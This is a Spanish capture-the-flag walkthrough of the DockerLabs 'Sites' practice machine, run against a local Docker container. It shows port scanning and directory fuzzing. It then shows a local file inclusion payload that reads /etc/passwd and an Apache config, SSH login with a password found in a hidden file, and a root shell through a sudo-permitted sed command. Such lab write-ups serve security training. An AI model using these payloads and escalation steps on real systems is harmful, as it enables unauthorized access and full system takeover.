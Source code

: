 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Sites DockerLabs (Intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip sites.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh sites.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 10:24 CET
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 cb:8f:50:db:6d:d8:d4:ac:bf:54:b0:62:12:7c:f0:01 (ECDSA)
|_  256 ca:6b:c7:0c:2a:d6:0e:3e:ff:c4:6e:61:ac:35:db:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Configuraci\xC3\xB3n de Apache y Seguridad en Sitios Web
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Si entramos al puerto `80` veremos una pagina web normal, pero que explica la configuracion del archivo `sitio.conf` en la carpeta `sites-available` donde se guardan las configuraciones de los sitios de `apache2`, y tambien algo referido a un `LFI` por lo que vamos a realizar un poco de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 3591]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/vulnerable.php       (Status: 200) [Size: 37]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay un archivo llamado `/vulnerable.php` por lo que podemos creer que se puede realizar un `LFI`, vamos a probarlo de la siguiente forma, ya que si entramos en dicho archivo veremos esto:

```
Please provide a page or a username. 
```

## Escalate user chocolate

Por lo que podremos deducir que el parametro sera `page`, lo probaremos de la siguiente forma:

```
URL = http://<IP>/vulnerable.php?page=/etc/passwd
```

Info:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
chocolate:x:1001:1001:,,,:/home/chocolate:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
```

Vemos que funciona, pero si nos fijamos en la pagina principal habla mucho del `sitio.conf` por lo que vamos a ver que contiene dicho archivo:

```
URL = http://<IP>/vulnerable.php?page=/etc/apache2/sites-available/sitio.conf
```

Info:

```
<VirtualHost *:80>
    ServerAdmin webmaster@tusitio.com
    DocumentRoot /var/www/html
    ServerName sitio.dl
    ServerAlias www.sitio.dl

    <Directory /var/www/html>
        Options Indexes FollowSymLinks
        AllowOverride All
        Require all granted
    </Directory>

    # Bloquear acceso al archivo archivitotraviesito (cuidadito cuidadin con este regalin)
    # <Files "archivitotraviesito">
    #   Require all denied
    # </Files>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

Por lo que vemos hay una linea interesante:

```
<Files "archivitotraviesito">
```

Por lo que vemos puede ser un archivo que este en la web, por lo que vamos a probar a ponerlo en la `URL` de la siguiente forma:

```
URL = http://<IP>/archivitotraviesito
```

Veremos lo siguiente:

```
Muy buen, has entendido el funcionamiento de un LFI y los archivos interesantes a visualizar dentro de apache, ahora te proporciono el acceso por SSH, pero solo la password, para practicar un poco de bruteforce (para variar)

lapasswordmasmolonadelacity
```

Por lo que vemos nos proporciona una contraseña para algun usuario, pero como podemos ver el `passwd` vemos el usuario llamado `chocolate`, por lo que probaremos a conectarnos por `SSH` con dichas credenciales.

### SSH

```shell
ssh chocolate@<IP>
```

Metemos como contraseña `lapasswordmasmolonadelacity` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for chocolate on 78b26188f6f1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 78b26188f6f1:
    (ALL) NOPASSWD: /usr/bin/sed
```

Vemos que podemos ejecutar el binario `sed` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo sed -n '1e exec bash 1>&0' /etc/hosts
```

Info:

```
root@78b26188f6f1:/home/chocolate# whoami
root
```

Con esto veremos que seremos `root` por lo que habremos terminado la maquina.
